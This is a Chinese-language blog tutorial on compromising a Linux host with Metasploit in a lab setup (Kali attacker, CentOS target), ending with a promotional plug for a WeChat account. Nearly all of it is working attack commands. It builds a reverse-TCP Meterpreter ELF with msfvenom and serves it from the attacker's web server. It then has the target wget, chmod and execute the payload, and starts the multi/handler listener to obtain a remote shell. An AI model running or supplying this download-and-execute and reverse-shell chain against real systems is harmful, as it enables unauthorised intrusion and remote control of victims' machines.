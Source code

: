 ```yaml
---
layout: post
category: curleyg-code-hack
title: 使用Metasploit实现对Linux客户端的渗透
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 使用Metasploit实现对Linux客户端的渗透
lock: need
---
```


# 使用Metasploit实现对Linux客户端的渗透

攻击机 Kali 192.168.175.128

靶机 CentOS 6.5 192.168.175.132

## 生成elf文件

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.175.128 LPORT=5555 -f elf > /var/www/html/pay.elf
```

这里，我们将生成的pay.elf文件保存到了/var/www/html/目录下。

## 启动apache服务器

```bash
service apache2 start
```

## 在靶机上下载pay.elf

这里，假设我们经过一系列的渗透取得了靶机的权限，在靶机上执行如下命令

```bash
wget http://192.168.175.128/pay.elf
chmod a+x pay.elf
./pay.elf
```

## 在攻击机上执行攻击操作

```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
setg LHOST 192.168.175.128
setg LPORT 5555
exploit
```

这样，我们就可以获取目标服务器的Meterpreter了。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
